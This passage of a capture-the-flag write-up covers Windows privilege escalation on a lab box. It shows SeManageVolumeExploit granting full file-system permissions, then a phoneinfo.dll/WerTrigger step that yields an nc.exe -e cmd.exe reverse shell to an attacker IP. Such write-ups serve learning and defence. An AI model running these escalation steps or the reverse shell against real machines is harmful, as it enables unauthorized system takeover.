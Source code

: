 There are repositories (including one made by the creator of this box) available to exploit this:

{% embed url="https://github.com/CsEnox/SeManageVolumeExploit" %}

When run, it gives us full permissions over the entire file system:

```
C:\Users\svc_mssql\Desktop>.\SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
Entries changed: 918
DONE 

C:\Users\svc_mssql\Desktop>icacls C:\
icacls C:\
C:\ NT AUTHORITY\SYSTEM:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(RX)
    BUILTIN\Users:(CI)(AD)
    BUILTIN\Users:(CI)(IO)(WD)
    CREATOR OWNER:(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

Using this, we can actually exploit WerTrigger to get an administrator shell.&#x20;

```
C:\Users\svc_mssql\Desktop>move phoneinfo.dll C:\Windows\System32
move phoneinfo.dll C:\Windows\System32
        1 file(s) moved.

C:\Users\svc_mssql\Desktop>.\WerTrigger.exe
.\WerTrigger.exe
C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.191 21
```

<figure><img src="../../../.gitbook/assets/image (954).png" alt=""><figcaption></figcaption></figure>

Rooted!

